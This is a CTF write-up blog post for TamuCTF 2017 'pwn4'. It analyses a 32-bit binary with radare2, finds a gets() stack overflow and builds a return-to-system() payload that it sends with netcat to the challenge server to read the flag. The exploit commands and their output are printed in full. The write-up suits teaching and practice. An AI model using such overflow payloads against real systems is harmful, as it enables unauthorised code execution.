 ```yaml
---
author:
  email: tzaoh1@gmail.com
  github: https://github.com/tzaoh
  image:
  - /images/avatar-64x64.png
  name:
  - Tzaoh
cardbackground: 'default'
cardbackground2: 'white'
cardtitlecolor: 'orange'
post_categories:
- CTFs
date: 2017-08-11T18:56:18+02:00
description: TamuCTF 2017 - pwn4
tags:
- CTF
- TamuCTF
- 2017
title: "TamuCTF 2017 - Pwn 4"
summary: "Is curious that this specific challenge had more value than the previous one ([pwn3](../pwn3/pwn3.md)). As we will see it was way easier."
cardthumbimage: "/assets/TamuCTF2017/title.png"
---
```


![Pwn4 challenge description](/assets/TamuCTF2017/pwn4/1-pwn4_description.png) 

Is curious that this specific challenge had more value than the previous one ([pwn3](../pwn3/pwn3.md)).  
As we will see below, it was way easier. Lets take a look with r2.

```bash
$ wget -q https://github.com/BlackHoods/BlackHoods.github.io/raw/master/assets/TamuCTF2017/pwn4/pwn4
$ r2 -A -c 'afl' pwn4
```

{{< highlight r2 "hl_lines=28 29 30 31" >}}
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze len bytes of instructions for references (aar)
[x] Analyze function calls (aac)
[x] Use -AA or aaaa to perform additional experimental analysis.
[x] Constructing a function name for fcn.* and sym.func.* functions (aan)
0x08048330    3 35           sym._init
0x08048353    1 25           fcn.08048353
0x0804836c    1 4            sub.gets_12_36c
0x08048370    1 6            sym.imp.gets
0x08048376    2 10   -> 22   fcn.08048376
0x08048380    1 6            sym.imp.puts
0x08048386    2 10   -> 22   fcn.08048386
0x08048390    1 6            sym.imp.system
0x08048396    2 10   -> 22   fcn.08048396
0x080483a0    1 6            sym.imp.__libc_start_main
0x080483a6    2 10   -> 22   fcn.080483a6
0x080483b0    1 6            sym.imp.setvbuf
0x080483b6    2 10   -> 22   fcn.080483b6
0x080483c0    1 1            sub.__gmon_start___252_3c0
0x080483c1    1 15           fcn.080483c1
0x080483d0    1 33           entry0
0x080483f1    1 1            fcn.080483f1
0x08048400    1 4            sym.__x86.get_pc_thunk.bx
0x08048410    4 43           sym.deregister_tm_clones
0x0804843c    4 57           fcn.0804843c
0x08048475    3 41           fcn.08048475
0x080484a0    8 43   -> 93   sym.frame_dummy
0x080484cb    1 25           sym.flag_func
0x080484e4    1 25           sym.func2
0x080484fd    1 24           sym.func1
0x08048515    1 71           sym.main
0x08048560    4 93           sym.__libc_csu_init
0x080485bd    1 5            fcn.080485bd
0x080485c2    1 22           fcn.080485c2
{{< /highlight >}}

We can see four interesting functions:

{{< highlight r2 "hl_lines=10 12 41 71" >}}
[0x080483d0]> s sym.flag_func; Vp
[0x080484cb 16% 240 pwn4]> pd $r @ sym.flag_func                         
┌ (fcn) sym.flag_func 25
│   sym.flag_func ();
│           0x080484cb      55             push ebp
│           0x080484cc      89e5           ebp = esp                       
│           0x080484ce      83ec08         esp -= 8                     
│           0x080484d1      83ec0c         esp -= 0xc                 
│         ; "/bin/cat flag2.txt"        
│           0x080484d4      68e0850408     push str._bin_cat_flag2.txt
│         ; int system(const char *string) ; sym.imp.system
│           0x080484d9      e8b2feffff     sym.imp.system ()
│           0x080484de      83c410         esp += 0x10
│           0x080484e1      90                                   
│           0x080484e2      c9                                   
└           0x080484e3      c3                                     
┌ (fcn) sym.func2 25                                             
│   sym.func2 ();                                                
│           0x080484e4      55             push ebp              
│           0x080484e5      89e5           ebp = esp             
│           0x080484e7      83ec08         esp -= 8              
│           0x080484ea      83ec0c         esp -= 0xc            
│           0x080484ed      68f3850408     push str.Nothing_to_see_here
│         ; int puts(const char *s)                      
│           0x080484f2      e889feffff     sym.imp.puts ()
│           0x080484f7      83c410         esp += 0x10
│           0x080484fa      90                                               
│           0x080484fb      c9                                   
└           0x080484fc      c3                                   
┌ (fcn) sym.func1 24
│   sym.func1 ();
│           ; var int local_ch @ ebp-0xc
│              ; CALL XREF from 0x0804854a (sym.main)
│           0x080484fd      55             push ebp
│           0x080484fe      89e5           ebp = esp
│           0x08048500      83ec18         esp -= 0x18
│           0x08048503      83ec0c         esp -= 0xc
│           0x08048506      8d45f4         eax = [local_ch]
│           0x08048509      50             push eax
│         ; char*gets(char *s)
│           0x0804850a      e861feffff     sym.imp.gets ()           
│           0x0804850f      83c410         esp += 0x10
│           0x08048512      90                        
│           0x08048513      c9                        
└           0x08048514      c3                          
┌ (fcn) sym.main 71         
│   sym.main ();
│           ; var int local_4h_2 @ ebp-0x4
│           ; var int local_4h @ esp+0x4
│              ; DATA XREF from 0x080483e7 (entry0)
│           0x08048515      8d4c2404       ecx = [local_4h]
│           0x08048519      83e4f0         esp &= 0xfffffff0
│           0x0804851c      ff71fc         push dword [ecx - 4]
│           0x0804851f      55             push ebp
│           0x08048520      89e5           ebp = esp
│           0x08048522      51             push ecx
│           0x08048523      83ec04         esp -= 4
│           0x08048526      a13ca00408     eax = dword obj.stdout
│           0x0804852b      6a00           push 0
│           0x0804852d      6a00           push 0
│           0x0804852f      6a02           push 2
│           0x08048531      50             push eax
│         ; int setvbuf(FILE*stream, char*buf, int mode, size_t size)
│           0x08048532      e879feffff     sym.imp.setvbuf ()
│           0x08048537      83c410         esp += 0x10
│           0x0804853a      83ec0c         esp -= 0xc
│           0x0804853d      6807860408     push str.I_require_an_input:
│         ; int puts(const char *s)
│           0x08048542      e839feffff     sym.imp.puts ()
│           0x08048547      83c410         esp += 0x10
│           0x0804854a      e8aeffffff     sym.func1 ()
│           0x0804854f      b800000000     eax = 0
│           0x08048554      8b4dfc         ecx = dword [local_4h_2]
│           0x08048557      c9                                     
│           0x08048558      8d61fc         esp = [ecx - 4]
└           0x0804855b      c3                                               
{{< /highlight >}}

> By the way the command `s sym.flag_func; Vp` can be splitted and explained like this:  
> `s sym.flag_func` - set the position of the cursor at the beginning of the function.  
> `V` - Change the visual mode.  
> `p` - change mode view.

Here they are, lets take a look at those functions.

Obviously we should try to execute `sym.flag_func()` function, it seems it will try print a file called `flag2.txt` (strange name right? why 2?) using the `cat` command on the remote server. But that function is never called. You can check it by yourself with:
```r2
[0x080484f7]> axt sym.flag_func
```

Then we need to dig a bit more.

1. `sym.func2()` is just printing a message (it even tells you not to waste your time with it). So we can ignore this one.
2. `sym.func1()` is a bit more interesting because it is using the unsecure function `gets()`. If it is called somewhere, we would be able to overwrite the `$eip` register.
3. We dont need to cross our fingers a lot of time because we fastly see that `sym.func1()` is being called from `main()`! yay! :v: .

Lets figure out, how many bytes do we need to overwrite `$eip` register.
```bash
$ pwn cyclic 40 ; To generate string with unique subsequences.
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaa
$ r2 -R "stdin=\"`pwn cyclic 40`\"" -A -d -c 'dc' pwn4
```
{{< highlight r2 "hl_lines=18 19" >}}
Process with PID 12102 started...
= attach 12102 12102
bin.baddr 0x08048000
Using 0x8048000
Assuming filepath /root/pwn4
asm.bits 32
[x] Analyze all flags starting with sym. and entry0 (aa)
TODO: esil-vm not initialized
[Cannot determine xref search boundariesr references (aar)
[x] Analyze len bytes of instructions for references (aar)
[x] Analyze function calls (aac)
[x] Use -AA or aaaa to perform additional experimental analysis.
[x] Constructing a function name for fcn.* and sym.func.* functions (aan)
ptrace (PT_ATTACH): Operation not permitted
= attach 12102 12102
I require an input:
child stopped with signal 11
[+] SIGNAL 11 errno=0 addr=0x61616165 code=1 ret=0
[0x61616165]>
{{< /highlight >}}

```bash
$ pwn cyclic -l 0x61616165
16
```

So, we can overwrite the `$eip` register writing the next 4 bytes (from byte 17 to 20)!  
Now we create a file with the previously commented file (`flag2.txt`) to try this out.

{{< highlight bash "hl_lines=4" >}}
$ echo This is the flag > flag2.txt
$ python -c 'print("A"*16 + "\xcb\x84\x04\x08")' | ./pwn4
I require an input:
This is the flag
Segmentation fault
{{< /highlight >}}

Good! what will the remote server say?
```bash
$ python -c 'print("A"*16 + "\xcb\x84\x04\x08")' | nc pwn.ctf.tamu.edu 4324
I require an input:                                                                              Did you really think it would be that easy?
```

Ouch! that file was just a decoy. There must be a another one named `flag.txt` waiting for us.
> But how could we executed it? There is only one function which print a file and its name is hardcoded.

Well, that is not a problem, because there is a call to `system()`.
The only thing we need to do is to pass a different argument: `cat flag.txt` instead of `cat flag2.txt`.

If you inspect all the strings of the binary you may find surprise:

{{< highlight r2 "hl_lines=5" >}}
[0x61616165]> iz
vaddr=0x080485e0 paddr=0x000005e0 ordinal=000 sz=19 len=18 section=.rodata type=ascii string=/bin/cat flag2.txt
vaddr=0x080485f3 paddr=0x000005f3 ordinal=001 sz=20 len=19 section=.rodata type=ascii string=Nothing to see here
vaddr=0x08048607 paddr=0x00000607 ordinal=002 sz=20 len=19 section=.rodata type=ascii string=I require an input:
vaddr=0x0804a028 paddr=0x00001028 ordinal=000 sz=18 len=17 section=.data type=ascii string=/bin/cat flag.txt
{{< /highlight >}}

As you may know, in order to pass the arguments to `system` they need to be pushed into the stack. In case of a string not its value but its reference (a pointer `0x0804a028` in this case).

Because we can overwrite the stack we can "imitate" a push into it:

1. Instead of starting in the address of `sym.flag_func()` (`0x080484cb`) we will use `system()` one (`0x080484d9`).  
`$ python -c 'print("A"*16 + "\xd9\x84\x04\x08")'`  
2. We need to push the pointer to the string to indicate `system()` which is its argument.  
`$ python -c 'print("A"*16 + "\xd9\x84\x04\x08" + "\x28\xa0\x04\x08")'`

Lets send to the server:
```bash
$ python -c 'print("A"*16 + "\xd9\x84\x04\x08" + "\x28\xa0\x04\x08")' | nc pwn.ctf.tamu.edu 4324
I require an input:
gigem{R3TURN_0R13NT3D_PR0F1T}
```

Answer: gigem{R3TURN_0R13NT3D_PR0F1T}

### Complete video
<a href="https://asciinema.org/a/drr8rhjxvoqpmu6ke8czn6hwf?autoplay=1" target="_blank"><img src="https://asciinema.org/a/drr8rhjxvoqpmu6ke8czn6hwf.png" /></a>


### Tools used and some references:

 * [radare2](https://github.com/radare/radare2) - To analyze the binary.
 * [pwntools](https://github.com/Gallopsled/pwntools) and [cyclic](http://docs.pwntools.com/en/stable/util/cyclic.html#pwnlib.util.cyclic.cyclic) - To generate unique substrings.
 * [asciinema](https://asciinema.org) - To record the session.
